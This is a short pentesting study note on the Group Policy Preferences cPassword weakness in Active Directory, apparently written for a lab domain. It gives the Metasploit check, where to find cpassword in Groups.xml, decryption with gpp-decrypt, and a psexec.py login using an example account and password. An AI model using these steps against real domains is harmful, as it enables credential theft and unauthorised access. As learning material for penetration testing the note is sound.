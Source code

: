 # GPP/cPassword Attacks Overview

## Overview

* GPP \(Group Policy Prefrences\) allowed admins to create policies using embedded credentials
* these credentials were encrypted and placed in a "cPassword"
* the key was accidentally released, patched in MS14-025 but does not prevent previous uses
* does not show up extremely often

## Resources

* [https://blog.rapid7.com/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/](https://blog.rapid7.com/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/)

## Metasploit Module to Check for Vuln

* background your shell

```bash
use smb_enum_gpp
```

## GPP/cPassword Attack Overview

### What File Is Important For This

* Groups.xml
* “cpassword” will be inside of it
* “name” is the username associated with the cpassword

### How to Decrypt the cpassword

```bash
gpp-decrypt <cpassword>
```

### Now Login with The Account

* can use many methods to try to use credentials

```bash
psexec.py marvel.local/svc_tgs:GPPstillStandingStrong2k18@10.10.10.10
```

* kerberoasting
* etc

